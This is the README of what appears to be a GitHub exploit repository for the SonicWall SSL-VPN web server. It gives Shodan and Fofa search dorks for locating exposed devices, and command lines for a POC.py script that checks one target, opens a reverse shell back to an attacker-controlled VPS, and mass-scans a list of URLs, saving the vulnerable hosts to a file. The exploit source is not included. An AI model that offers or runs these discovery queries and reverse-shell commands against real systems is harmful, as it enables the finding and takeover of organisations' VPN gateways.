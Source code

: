 # SonicWall_SSL-VPN_EXP
SonicWALL SSL-VPN Web Server Vulnerable Exploit

![burp](./img/burp.png)

### Dork

Shodan:

http.favicon.hash:-1153950306

http.favicon.hash:-2012355198

Fofa:

(body="login_box_sonicwall" || header="SonicWALL SSL-VPN Web Server") && body="SSL-VPN"

### Usage

vulnerability verification for individual websites

```python
python POC.py -u https://1.1.1.1
```

reverse shell to your VPS host

```python
python POC.py -e https://1.1.1.1 -rh 2.2.2.2 -rp 9999
```

perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file

```python
python3 POC.py -f urls.txt
```

![usage](./img/demo.png)

### Reference

https://twitter.com/chybeta/status/1353974652540882944

https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/




